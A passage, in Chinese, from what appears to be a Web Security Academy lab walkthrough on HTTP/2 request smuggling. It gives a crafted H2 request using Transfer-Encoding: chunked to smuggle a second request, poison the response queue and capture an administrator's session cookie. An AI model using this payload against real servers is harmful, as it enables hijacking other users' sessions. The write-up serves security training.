 [![](assets/1705287960-be69b6c0f8ebc090c4bde6aef815fd28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103958-b649f26a-b02a-1.png)  
发送的第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀中去

[![](assets/1705287960-5f3a61dd5f4c5ace3ed6b5444650ac9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104010-bd430c78-b02a-1.png)  
Step 2：在 Burp Repeater 中构造以下请求将一个完整的请求走私到后端服务器，需要注意的是这两个请求中的路径都指向一个不存在的路径，这意味着请求将总是得到 404 响应，一旦我们成功毒化了响应队列，那么此时便更容易识别到成功捕获的其他用户的响应 (非 404 响应)

```bash
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
```

[![](assets/1705287960-065ab2e9651f809c0b7ea8532b9f192a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104030-c95ab51a-b02a-1.png)  
随后我们会捕获到包含管理员新的登录后会话 cookie 的 302 响应
